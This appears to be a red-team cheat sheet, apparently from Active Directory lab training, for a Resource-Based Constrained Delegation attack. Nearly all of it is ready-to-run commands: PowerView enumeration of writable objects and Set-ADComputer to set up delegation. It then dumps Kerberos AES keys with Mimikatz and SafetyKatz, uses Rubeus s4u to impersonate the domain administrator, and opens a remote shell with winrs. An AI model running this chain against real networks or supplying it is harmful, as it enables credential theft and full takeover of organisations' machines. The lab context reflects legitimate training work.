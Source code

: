 # RBCD -

### PowerShell

#### Enumerate if we have Write permissions over any object

```
# PowerView
Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}
```

#### Configure RBCD on us-helpdesk for student machines

```
# AD Module
$comps = 'student1$','student2$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps
```

#### We we can dump the AES Keys of the Students

```
# Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# SafetyKatz Binary
SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"

# SafetyKatz Old (For Windows 2020 Server)
SafetyKatz_old.exe -Command "sekurlsa::ekeys" "exit"
```

***

### Binaries

#### Rubeus

> Use the AES key of studentx$ with Rubeus and access us-helpdesk as ANY user we want

```
Rubeus.exe s4u /user:student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
```

#### Winrs

> Now we can connect to the session

```
winrs -r:us-helpdesk cmd.exe
```
